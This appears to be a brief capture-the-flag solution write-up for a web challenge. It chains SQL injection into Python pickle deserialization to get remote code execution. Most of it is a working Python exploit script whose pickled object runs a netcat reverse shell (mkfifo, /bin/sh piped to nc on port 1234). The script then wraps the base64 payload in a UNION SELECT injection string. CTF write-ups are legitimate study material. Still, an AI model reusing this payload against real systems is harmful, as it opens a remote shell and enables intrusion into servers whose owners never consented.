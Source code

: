 # How to sol

## Step 1 - identify vuln
template_filer -> pickle -> deserialize in python

## Step 2 - exploit
 - i see it get directly value and dont sensitize -> `SQLI` -> inject payload -> pickle deserial it -> RCE


```python
# Demo Code
import os
import pickle
import base64
import requests

class Item:
	# def __init__(self, name, description, price, image):
	# 	self.name = name
	# 	self.description = description
	# 	self.image = image
	# 	self.price = price
	def __reduce__(self):
		cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <host> 1234 > /tmp/f')
		return os.system, (cmd,)

if __name__  == '__main__':
	payload = base64.b64encode(pickle.dumps(Item())).decode()
	payload = f"' UNION SELECT '{payload}' -- "
	payload = requests.utils.requote_uri(payload)
	print(payload)
```